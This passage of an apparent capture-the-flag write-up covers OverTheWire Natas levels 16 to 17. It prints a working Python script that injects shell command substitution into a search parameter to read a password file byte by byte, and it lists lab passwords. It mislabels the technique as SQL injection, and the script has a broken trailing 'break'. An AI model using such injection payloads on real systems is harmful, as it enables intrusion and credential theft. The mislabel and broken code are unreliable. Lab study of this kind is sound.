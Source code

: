 ![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b26e09a9-8881-4a38-bbfa-dddcfeae79ea)

As you can see, there's no output. This means the letter ```b``` is present in the ```/etc/natas_webpass/natas17``` file.

We'll be using a python script to get the full password to the next level

```python
#!/bin/python
import requests,string

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

characters = ''.join([string.ascii_letters,string.digits])

password = []
for i in range(1,34):
    for char in characters:
        uri = "{0}?needle=$(grep -E ^{1}{2}.* /etc/natas_webpass/natas17)hackers".format(url,''.join(password),char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'hackers' not in r.text:
            password.append(char)
            print(''.join(password))
            break
        else: continue

   break
```
<font color="green">The Python code performs a blind-based SQL injection attack to extract the password character by character from a target web application. It iterates through a character set and constructs URLs with injection payloads. By analyzing the response, it determines whether each character is part of the password and appends it to the password list. The code continues this process until the complete password is retrieved</font>

Save the  script in a file and run it

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/be992da2-006f-43fa-b88b-a26d0dfcd638)

Cool, we got the password to the next level



# Level 17

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/86ee49fb-b95f-4246-b030-c7ff399769ea)

Navigating to the webpage and using the password we got from the previous level

username:```natas17```         password:```XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8b924eee-914b-4664-a2ef-0d825cb25f43)
